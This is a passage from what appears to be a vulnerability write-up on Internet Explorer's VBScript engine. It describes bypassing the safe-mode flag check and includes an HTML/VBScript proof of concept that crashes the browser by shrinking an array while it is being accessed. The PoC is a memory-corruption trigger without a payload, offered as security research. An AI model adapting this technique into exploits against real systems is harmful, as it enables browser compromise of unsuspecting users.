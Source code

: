 Internet Explorer, by default, prevents running scripts that may be harmful to the system. It checks with `InSafeMode` function, where the safe mode flag is verified (default flag is 0xE) as well as the check for the unsafe extensions (such as "Shell.Application") happens. Fortunately, we know that `IsUnsafeAllowed` will always return true and we can change the value of the flag by exploiting vulnerability #1.

<div class="text-center" style="margin-bottom: 1em">
<img src="/assets/images/2016-06-22/in_safe_mode.png" style="border: 1px solid #CCC">
</div>

However, this does not overcome the Protected Mode (sandbox) of the Internet Explorer. Look at **Exploit** section to see how to escape the sandbox and run code as _Medium_ integrity.


### Trigger PoC

The following example crashes Internet Explorer with an access violation due to accessing memory that is no longer valid. The size of the second dimension of the array is changed to a much smaller value in the middle of accessing the array.

```html
<html>
<meta http-equiv="x-ua-compatible" content="IE=10">
<body>
    <script type="text/vbscript">
        Dim aw

        Class ArrayWrapper
            Dim A()
            Private Sub Class_Initialize
                ReDim Preserve A(1, 20000)
            End Sub
            Public Sub Resize()
                ReDim Preserve A(1, 1)
            End Sub
        End Class

        Function crash (arg1)
            Set aw = New ArrayWrapper
            MsgBox aw.A(arg1, 20000)
        End Function

        Function triggerBug
            aw.Resize()
        End Function
    </script>

    <script type="text/javascript">
        alert(1);
        var o = {"valueOf": function () { triggerBug(); return 1; }};
        setTimeout(function() {crash(o);}, 50);
    </script>
</body>
</html>
```
